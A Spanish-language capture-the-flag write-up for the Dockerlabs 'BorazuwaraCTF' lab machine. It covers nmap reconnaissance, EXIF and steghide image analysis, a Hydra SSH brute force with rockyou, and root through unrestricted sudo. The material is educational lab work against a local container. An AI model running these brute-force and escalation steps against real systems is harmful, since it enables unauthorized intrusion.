

# BorazuwaraCTF - Dockerlabs (Muy Fácil)

## Introducción

Máquina de [Dockerlabs](https://dockerlabs.es/) centrada en esteganografía y fuerza bruta contra protocolos de red.

- **Dificultad:** Muy Fácil
- **IP objetivo:** 172.17.0.2

## Reconocimiento

### Descubrimiento de host (red Docker)

```
sudo arp-scan -I docker0 --localnet --resolve
```

### Escaneo de puertos

```
nmap -p- -sV -sC --open -sS -vvv -n -Pn --min-rate 5000 172.17.0.2
```

Resultado relevante:

```
22/tcp open  ssh     OpenSSH 9.2p1 Debian
80/tcp open  http    Apache httpd 2.4.59 (Debian)
```

## Enumeración web

```
curl http://172.17.0.2
```

Resultado:
```
<html><body></body></html>
```

La página solo contiene una imagen, indicio directo de esteganografía según el enunciado del lab.

## Análisis de la imagen

Descarga:
```
curl http://172.17.0.2/imagen.jpeg -o imagen.jpeg
```

### Metadatos con exiftool

```
exiftool imagen.jpeg
```

Resultado relevante:
```
Description: User: borazuwarah
Title: Password:
```

Se obtiene el usuario del sistema: borazuwarah. El campo de contraseña aparece vacío en los metadatos visibles, sugiriendo que está oculta dentro de la imagen.

### Esteganografía con steghide

```
steghide info imagen.jpeg
```

Confirma una capacidad de 704 bytes ocultos. Se extrae sin contraseña (passphrase vacía):

```
steghide extract -sf imagen.jpeg
```

Resultado: archivo embebido secreto.txt (104 bytes), extraído correctamente.

Contenido de secreto.txt:
```
Sigue buscando, aquí no está la solución
aunque te dejo una pista....
sigue buscando en la imagen!!!
```

Se trata de un mensaje señuelo, sin información útil adicional. Se probaron otras técnicas de análisis de la imagen sin resultado: binwalk (sin archivos adicionales detectados), foremost (solo recuperó la imagen original) y zsteg (sin hallazgos relevantes, técnica más orientada a PNG que a JPEG).

## Obtención de credenciales

Retomando el enunciado del lab ("fuerza bruta contra protocolos de red"), se atacó SSH directamente con el usuario obtenido de los metadatos:

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Resultado:
```
login: borazuwarah   password: 123456
```

## Acceso inicial

```
ssh borazuwarah@172.17.0.2
```
Contraseña: 123456


## Escalada de privilegios

```
sudo -l
```

Resultado:
```
User borazuwarah may run the following commands on 55d5485c4797:
    (ALL : ALL) ALL
```

El usuario tiene permisos de sudo totales, sin restricciones. Escalada directa:

```
sudo /bin/bash
```

Confirmación de acceso total:
```
whoami
```


Resultado: root

## Conclusión

Máquina con un componente de esteganografía que funciona parcialmente como distracción: la imagen sí contiene información útil (el usuario, en los metadatos EXIF), pero el archivo oculto con steghide es un señuelo diseñado para hacer perder tiempo buscando una segunda capa de esteganografía inexistente. La clave fue volver al enunciado original del lab una vez agotadas las vías razonables de análisis de la imagen. Buen ejercicio para reforzar:
- Lectura de metadatos EXIF como fuente de credenciales o pistas
- Uso de steghide y stegseek para esteganografía en JPEG
- No sobre-invertir tiempo en una sola vía de ataque cuando el enunciado del lab ya señala el camino principal (en este caso, fuerza bruta)
- Configuración de sudo sin ninguna restricción (ALL:ALL ALL) como vector de escalada trivial
